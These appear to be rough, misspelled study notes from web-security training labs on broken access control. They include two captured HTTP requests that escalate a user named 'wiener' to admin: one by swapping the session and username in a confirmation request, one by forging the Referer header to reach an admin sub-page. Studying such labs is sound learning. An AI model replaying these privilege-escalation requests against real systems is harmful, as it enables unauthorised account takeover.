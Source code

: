 exmpale
by cahnge the user session  and  change username in the conformation request the winer user 
priogage changes 
 
POST /admin-roles HTTP/1.1
Host: 0adb006e030107b681a83e6900ac00f7.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0adb006e030107b681a83e6900ac00f7.web-security-academy.net
Connection: close
Referer: https://0adb006e030107b681a83e6900ac00f7.web-security-academy.net/admin-roles
Cookie: session=Zy9eRhAxsqxhUtWPNZrosrQMe7PoXWgF
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

action=upgrade&confirmed=true&username=wiener


======================================================================================
Referer-based access control
======================================================================================
Some pages relays on the referre header to 
For example, suppose an application robustly enforces access control over the main administrative page at /admin, but for 
sub-pages such as /admin/deleteUser only inspects the Referer header. If the Referer header contains the main /admin 
URL, then the request is allowed.

access sunpages using referer heade

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: 0af400ed03c4c2488197161e00b4007d.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://0af400ed03c4c2488197161e00b4007d.web-security-academy.net/admin
Cookie: session=x6clDgSg77oJ6Bvfq1Sin9fpSlvQQIXc
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1



if you delete the refrer header you will get 401 
but if you change the username and cookie you can promote weiner user  
